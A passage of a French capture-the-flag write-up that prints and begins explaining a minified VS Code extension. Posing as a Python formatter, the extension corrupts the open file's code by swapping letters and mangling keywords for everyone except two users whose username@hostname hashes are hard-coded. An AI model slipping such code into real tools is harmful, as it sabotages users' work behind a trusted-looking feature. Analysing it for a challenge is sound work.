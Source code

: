```javascript
(()=>{"use strict";var e={265:function(e,t,r){var a=this&&this.__createBinding||(Object.create?
function(e,t,r,a){void 0===a&&(a=r);var o=Object.getOwnPropertyDescriptor(t,r);o&&!("get"in o?!
t.__esModule:o.writable||o.configurable)||(o={enumerable:!0,get:function(){return t[r]}}),Object
.defineProperty(e,a,o)}:function(e,t,r,a){void 0===a&&(a=r),e[a]=t[r]}),o=this&&this.__setModule
Default||(Object.create?function(e,t){Object.defineProperty(e,"default",{enumerable:!0,value:t})}
:function(e,t){e.default=t}),f=this&&this.__importStar||function(e){if
(e&&e.__esModule)return e;var t={};if(null!=e)for(var r in e)"default"!==r&&Object.prototype.has
OwnProperty.call(e,r)&&a(t,e,r);return o(t,e),t};Object.defineProperty(t,"__esModule",{value:!0})
,t.activate=function(e){Buffer.from("36756fe62567ea3dd22be697534eaa63f86d48d9e67f66c9d9ed600f2286
054c","hex"),c.languages.registerDocumentFormattingEditProvider("python",{provideDocumentFormattingEdit
s(e){const t=c.window.activeTextEditor;if(!t)return[];let r=t.document.getText().replaceAll("r","w");
r=r.replaceAll("R","W"),Buffer.from("ec9cc19bff42faa3be6e33e099b17f734a1c2af7abdd2955bbd59d72ddbdb17
a","hex"),Buffer.from("e38d0d4a1e3b5f2ae3cfb618698ad736a10789539cf5bcec368ef13e134c2c3a","hex"),new
Map([["import","impowt"],["break","bweak"],["raise","waise"],["True","Twue"],["return","wetuwn"],[
"for","fow"],["try","twy"],["from","fwom"],["assert","assewt"],["or","ow"]]).forEach(((e,t)=>{r=r.
replaceAll(e,t)}));let a=new c.Range(0,0,t.document.lineCount,0),o=t.document.validateRange(a),f=
Buffer.from("076a89c23179cedfc61171fe400ecf01fb76b9a48a68fb82dd0cd688d684d900","hex"),n=Buffer.
from("d4c1567970bf9e4f541abfeb4c9314c6bcb5374d81dd612bae0dbece6d46b282","hex");return 0!==Buffer
.compare(i,f)&&0!==Buffer.compare(i,n)&&t.edit((e=>{e.replace(o,r)})),[]}})},t.deactivate=functi
on(){};const c=f(r(398)),n=r(857),{createHash:d}=r(982);let i=d("sha256").update((u=(0,n.userInf
o)().username,s=(0,n.hostname)(),`${u}@${s}`).toLowerCase()).digest();var u,s},398:e=>{e.exports=
require("vscode")},982:e=>{e.exports=require("crypto")},857:e=>{e.exports=require("os")}},t={},r=
function r(a){var o=t[a];if(void 0!==o)return o.exports;var f=t[a]={exports:{}};return e[a].call(
  f.exports,f,f.exports,r),f.exports}(265);module.exports=r})();
```

Je suis d'accord, le code n'est pas très accueillant. C'est un code Javascript décrivant le comportement
de l'extension.

Notre mission dans cette épreuve est de retrouver **le nom d'utilisateur et le hostname** utilisés dans
cette extension (sous la forme `utilisateur@hostname`). Certaines lignes attirent donc notre attention :
```javascript
 let i = d("sha256").update((u = (0, n.userInfo)().username, s = (0, n.hostname)(), `${u}@${s}`).toLowerCase()).digest();
```

On peut voir que le format `${u}@${s}` correspond au format `utilisateur@hostname`. Il faut maintenant
trouver quelles sont les valeurs de `u` et de `s`.

### Trouvez les hashs
La fonction de hachage sha256 est utilisée à plusieurs endroits du code, notamment celui-ci :
```javascript
let a = new c.Range(0, 0, t.document.lineCount, 0),
    o = t.document.validateRange(a),
    f = Buffer.from("076a89c23179cedfc61171fe400ecf01fb76b9a48a68fb82dd0cd688d684d900", "hex"),
    n = Buffer.from("d4c1567970bf9e4f541abfeb4c9314c6bcb5374d81dd612bae0dbece6d46b282", "hex");

return 0 !== Buffer.compare(i, f) && 0 !== Buffer.compare(i, n) && t.edit((e => {
    e.replace(o, r)
})), []
```
